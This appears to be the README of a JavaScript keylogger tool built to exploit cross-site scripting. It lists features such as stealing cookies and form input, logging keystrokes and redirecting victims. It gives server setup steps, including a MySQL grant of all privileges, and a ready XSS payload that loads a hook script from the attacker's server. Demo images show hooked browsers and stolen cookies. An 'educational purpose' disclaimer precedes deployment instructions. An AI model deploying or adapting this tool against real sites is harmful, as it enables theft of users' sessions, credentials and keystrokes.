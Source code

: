 # keylogger.js
A JS keylogger to exploit XSS

> This tool is only for educational purpose, do not use it against real environment



## Functionnalities

- Exfiltrate input field data
- Exfiltrate cookies
- Keylogging
- Display alert box
- Redirect user



## Install

You may need Apache + Mysq + PHP (+ php-curl)

```
# apt-get install apache2 mysql-server php php-mysql php-curl
```



Pull the keylogger source code:

```
git clone https://github.com/Sharpforce/keylogger.js.git
mv /var/www/html/keylogger/* ./
```



### Init the database

```
# mysql -u root
```

Creating a new user with specific rights:

```
MariaDB [(none)]> grant all on *.* to keylogger@localhost identified by 'keylogger';
Query OK, 0 rows affected (0.00 sec)

MariaDB [(none)]> flush privileges;
Query OK, 0 rows affected (0.00 sec)

MariaDB [(none)]> quit
Bye
```

Creating the database (will result in an empty page):

Visit the page http://ip/reset_database.php



### Exploit JS

The file hook.js is a hook. You need to replace the ip address in the first line with the keylogger.js server ip address:

```javascript
var address = "your server ip";
```



Insert the hook in your XSS payload:

```
?vulnerable_param=<script src="http://your_server_ip/hook.js"/>
```



Then, the keylogger server should list hooked browsers:

![image-20200214110103913](img/image-20200214110103913.png)

### Demo

*Welcome page / Hooked browser*

![](img/hooked_browser.gif)

*Steal cookies*

![](img/stealcookies.gif)

*Keylogger*

![](img/keylogger.gif)
















